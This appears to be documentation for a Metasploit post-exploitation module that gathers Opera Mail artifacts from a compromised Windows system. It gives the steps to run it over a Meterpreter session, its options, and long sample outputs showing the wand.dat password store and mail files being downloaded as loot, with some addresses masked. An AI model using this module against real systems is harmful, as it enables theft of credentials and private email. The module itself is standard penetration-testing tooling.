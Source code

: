 ## Module Description

This post-exploitation module gathers artifacts found on Operamail related folders from end users systems.

The list of available artifcts are listed within the module and can be added at anytime. Each artifacts are categorised so that users can specify a category to look for.


## Verification Steps

1. Start MSF console
2. Get a Meterpreter session on a Windows system
3. use post/windows/gather/credentials/Operamail
4. Set SESSION 1
5. enter 'run' to extract credentials from all applications


## Options
### REGEX

Users can set their own regular expressions so that it could be applied for the credential extraction. The default is set to ^password.

### VERBOSE

By default verbose is turned off. When turned on, the module will show information on files which aren't extracted and information that is not directly related to the artifact output.


### STORE_LOOT
This option is turned on by default and saves the stolen artifcats/files on the local machine,
this is required for also extracting credentials from files using regexp, JSON, XML, and SQLite queries.


### EXTRACT_CREDENTIALS
This option is turned on by defalt and will perform the credentials extraction use the predefined regular expression. The 'Store loot' options must be turned on in order for this to take place.

## Example Run
### Default Output
  ```
msf6 post(windows/gather/credentials/operamail) > run 

[*] Filtering based on these selections:  
[*] ARTIFACTS: All
[*] STORE_LOOT: true
[*] EXTRACT_CREDENTIALS_FROM_FILE: true

[*] Operamail's parent folder found
[*] Operamail's Wand.dat file found
[*] Downloading C:\Users\IEUser\AppData\Roaming\Opera Mail\Opera Mail\wand.dat
[*] Operamail Wand.dat downloaded
[+] File saved to:  /root/.msf4/loot/20210513062118_default_192.168.56.106_operamailwand.da_873247.dat

[+] File with credentials saved:  /root/.msf4/loot/20210513062118_default_192.168.56.106_EXTRACTIONwand.d_440695.dat
[*] Operamail's parent folder found
[*] Operamail's *.mbs file found
[*] Downloading C:\Users\IEUser\AppData\Local\Opera Mail\Opera Mail\mail\store\account1\2021\05\02\1.mbs
[*] Operamail 1.mbs downloaded
[+] File saved to:  /root/.msf4/loot/20210513062118_default_192.168.56.106_operamail1.mbs_724517.mbs

[+] From:"OperaDesktopTeam"<noreply@opera.com>
[+] File with credentials saved:  /root/.msf4/loot/20210513062119_default_192.168.56.106_EXTRACTION.mbs_258744.mbs
[*] Downloading C:\Users\IEUser\AppData\Local\Opera Mail\Opera Mail\mail\store\drafts\2.mbs
[*] Operamail 2.mbs downloaded
[+] File saved to:  /root/.msf4/loot/20210513062119_default_192.168.56.106_operamail2.mbs_057429.mbs

[+] File with credentials saved:  /root/.msf4/loot/20210513062119_default_192.168.56.106_EXTRACTION.mbs_565399.mbs
[*] Downloading C:\Users\IEUser\AppData\Local\Opera Mail\Opera Mail\mail\store\drafts\3.mbs
[*] Operamail 3.mbs downloaded
[+] File saved to:  /root/.msf4/loot/20210513062119_default_192.168.56.106_operamail3.mbs_471143.mbs

[+] File with credentials saved:  /root/.msf4/loot/20210513062120_default_192.168.56.106_EXTRACTION.mbs_391099.mbs
[*] Downloading C:\Users\IEUser\AppData\Local\Opera Mail\Opera Mail\mail\store\drafts\4.mbs
[*] Operamail 4.mbs downloaded
[+] File saved to:  /root/.msf4/loot/20210513062120_default_192.168.56.106_operamail4.mbs_468755.mbs

[+] To:************@gmail.com
[+] From:"************"<************@************.co.uk>
[+] File with credentials saved:  /root/.msf4/loot/20210513062120_default_192.168.56.106_EXTRACTION.mbs_975964.mbs
[*] Downloading C:\Users\IEUser\AppData\Local\Opera Mail\styles\m2_upgrade_1160.mbs
[*] Operamail M2_upgrade_1160.mbs downloaded
[+] File saved to:  /root/.msf4/loot/20210513062120_default_192.168.56.106_operamailm2_upgr_620846.mbs

[+] From:"OperaDesktopTeam"<noreply@opera.com>
[+] File with credentials saved:  /root/.msf4/loot/20210513062121_default_192.168.56.106_EXTRACTION.mbs_994734.mbs
[*] Downloading C:\Users\IEUser\AppData\Local\Opera Mail\styles\m2_welcome_message.mbs
[*] Operamail M2_welcome_message.mbs downloaded
[+] File saved to:  /root/.msf4/loot/20210513062121_default_192.168.56.106_operamailm2_welc_906380.mbs

[+] From:"OperaDesktopTeam"<noreply@opera.com>
[+] File with credentials saved:  /root/.msf4/loot/20210513062121_default_192.168.56.106_EXTRACTION.mbs_566934.mbs
[*] PackRat credential sweep Completed
[*] Post module execution completed

  ```

### Verbose Output
  ```
msf6 post(windows/gather/credentials/operamail) > run 

[*] Filtering based on these selections:  
[*] ARTIFACTS: All
[*] STORE_LOOT: true
[*] EXTRACT_CREDENTIALS_FROM_FILE: true

[*] Starting Packrat...
[*] Operamail's parent folder found
[*] Operamail's Wand.dat file found
[*] Processing C:\Users\IEUser\AppData\Roaming\Opera Mail\Opera Mail
[*] Downloading C:\Users\IEUser\AppData\Roaming\Opera Mail\Opera Mail\wand.dat
[*] Operamail Wand.dat downloaded
[+] File saved to:  /root/.msf4/loot/20210513063651_default_192.168.56.106_operamailwand.da_186519.dat

[+] File with credentials saved:  /root/.msf4/loot/20210513063651_default_192.168.56.106_EXTRACTIONwand.d_454986.dat
[*] Operamail's parent folder found
[*] Operamail's *.mbs file found
[*] Processing C:\Users\IEUser\AppData\Local\Opera Mail\Opera Mail\mail\store\account1\2021\05\02
[*] Downloading C:\Users\IEUser\AppData\Local\Opera Mail\Opera Mail\mail\store\account1\2021\05\02\1.mbs
[*] Operamail 1.mbs downloaded
[+] File saved to:  /root/.msf4/loot/20210513063651_default_192.168.56.106_operamail1.mbs_378969.mbs

[*] searches for Email TO/FROM address
[+] From:"OperaDesktopTeam"<noreply@opera.com>
[+] File with credentials saved:  /root/.msf4/loot/20210513063651_default_192.168.56.106_EXTRACTION.mbs_751986.mbs
[*] Processing C:\Users\IEUser\AppData\Local\Opera Mail\Opera Mail\mail\store\drafts
[*] Downloading C:\Users\IEUser\AppData\Local\Opera Mail\Opera Mail\mail\store\drafts\2.mbs
[*] Operamail 2.mbs downloaded
[+] File saved to:  /root/.msf4/loot/20210513063651_default_192.168.56.106_operamail2.mbs_427825.mbs

[+] File with credentials saved:  /root/.msf4/loot/20210513063652_default_192.168.56.106_EXTRACTION.mbs_571426.mbs
[*] Processing C:\Users\IEUser\AppData\Local\Opera Mail\Opera Mail\mail\store\drafts
[*] Downloading C:\Users\IEUser\AppData\Local\Opera Mail\Opera Mail\mail\store\drafts\3.mbs
[*] Operamail 3.mbs downloaded
[+] File saved to:  /root/.msf4/loot/20210513063652_default_192.168.56.106_operamail3.mbs_783307.mbs

[+] File with credentials saved:  /root/.msf4/loot/20210513063652_default_192.168.56.106_EXTRACTION.mbs_473719.mbs
[*] Processing C:\Users\IEUser\AppData\Local\Opera Mail\Opera Mail\mail\store\drafts
[*] Downloading C:\Users\IEUser\AppData\Local\Opera Mail\Opera Mail\mail\store\drafts\4.mbs
[*] Operamail 4.mbs downloaded
[+] File saved to:  /root/.msf4/loot/20210513063652_default_192.168.56.106_operamail4.mbs_771393.mbs

[*] searches for Email TO/FROM address
[+] To:************@gmail.com
[*] searches for Email TO/FROM address
[+] From:"******"<************@gmail.com>
[+] File with credentials saved:  /root/.msf4/loot/20210513063652_default_192.168.56.106_EXTRACTION.mbs_090332.mbs
[*] Processing C:\Users\IEUser\AppData\Local\Opera Mail\styles
[*] Downloading C:\Users\IEUser\AppData\Local\Opera Mail\styles\m2_upgrade_1160.mbs
[*] Operamail M2_upgrade_1160.mbs downloaded
[+] File saved to:  /root/.msf4/loot/20210513063652_default_192.168.56.106_operamailm2_upgr_993450.mbs

[*] searches for Email TO/FROM address
[+] From:"OperaDesktopTeam"<noreply@opera.com>
[+] File with credentials saved:  /root/.msf4/loot/20210513063653_default_192.168.56.106_EXTRACTION.mbs_610156.mbs
[*] Processing C:\Users\IEUser\AppData\Local\Opera Mail\styles
[*] Downloading C:\Users\IEUser\AppData\Local\Opera Mail\styles\m2_welcome_message.mbs
[*] Operamail M2_welcome_message.mbs downloaded
[+] File saved to:  /root/.msf4/loot/20210513063653_default_192.168.56.106_operamailm2_welc_946408.mbs

[*] searches for Email TO/FROM address
[+] From:"OperaDesktopTeam"<noreply@opera.com>
[+] File with credentials saved:  /root/.msf4/loot/20210513063653_default_192.168.56.106_EXTRACTION.mbs_150137.mbs
[*] PackRat credential sweep Completed
[*] Post module execution completed

```